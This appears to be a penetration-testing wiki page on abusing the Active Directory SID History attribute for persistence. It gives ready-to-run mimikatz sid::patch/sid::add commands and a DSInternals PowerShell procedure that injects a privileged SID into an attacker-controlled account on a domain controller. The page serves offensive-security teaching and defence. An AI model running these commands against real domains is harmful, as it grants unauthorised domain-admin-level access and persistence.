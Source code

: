 # SID History

## Theory

The **SID (Security Identifier)** is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The **SID history** is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

{% hint style="danger" %}
There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.
{% endhint %}

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

{% hint style="warning" %}
Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).
{% endhint %}

```batch
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

{% hint style="danger" %}
The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.
{% endhint %}

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

{% embed url="https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory" %}

{% embed url="https://attack.mitre.org/techniques/T1134/005/" %}

{% embed url="https://adsecurity.org/?p=1772" %}

{% embed url="https://forum.winbatch.com/index.php?topic=1545.0" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya" %}

{% embed url="https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/" %}

